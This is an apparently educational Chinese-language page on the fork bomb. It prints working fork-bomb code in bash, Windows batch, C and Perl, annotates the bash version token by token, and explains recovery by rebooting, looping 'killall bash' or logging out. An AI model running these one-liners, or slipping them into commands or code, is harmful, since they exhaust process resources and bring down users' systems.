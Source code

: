 ```shell
:(){ :|:& };:
```

注解如下：

```shell
:()      # 定义函数,函数名为":",即每当输入":"时就会自动调用{}内代码
{        # ":"函數起始字元
    :    # 用递归方式调用":"函数本身
    |    # 並用管線(pipe)將其輸出引至...（因为有一个管線操作字元，因此會生成一個新的進程）
    :    # 另一次递归调用的":"函数
# 综上,":|:"表示的即是每次調用函数":"的時候就會產生兩份拷貝
    &    # 調用間脱鉤,以使最初的":"函数被關閉後為其所調用的兩個":"函數還能繼續執行
}        # ":"函數終止字元
;        # ":"函数定义结束后将要进行的操作...
:        # 调用":"函数,"引爆"fork炸弹
```

其中函数名“:”只是简化的一例，实际上可以随意设置，一个较易理解（将函数名替换为“forkbomb”）的版本如下：

```shell
forkbomb(){ forkbomb|forkbomb & } ; forkbomb
```

Windows下则可以批处理命令如下实现：

```shell
%0|%0
```
POSIX标准下的C与C++的实现：

```cpp
#include <unistd.h>

int main()
{
  while(1)
    fork();
  return 0;
}
```

Perl语言的实现：

```perl
fork while fork
```
当然也可以“熄火”

在系统中成功“引爆”fork炸弹后，可重启来使系统恢复正常运行；而若要以手动的方法使fork炸弹“熄火”，那前提就是必须杀死fork炸弹产生的所有进程。为此我们可以考虑使用程序来杀死fork炸弹产生的进程，但由于这一般需要创建新进程，且由于fork炸弹一直在探测与占用进程槽与内存空间，因而这一方法不易实现，虽用`kill`命令杀死进程后，释放出的进程会被余下的fork炸弹线程所产生的新进程占用，但可以使用循环杀死所有进程，不过也会将无关的进程杀死

```shell
for ((tmp=1;tmp<10;tmp++));do killall bash;done
```

在Windows下，用户可以退出当前用户会话的方式使系统恢复正常，但此法奏效的前提是fork炸弹是在该用户的特定会话内触发的。
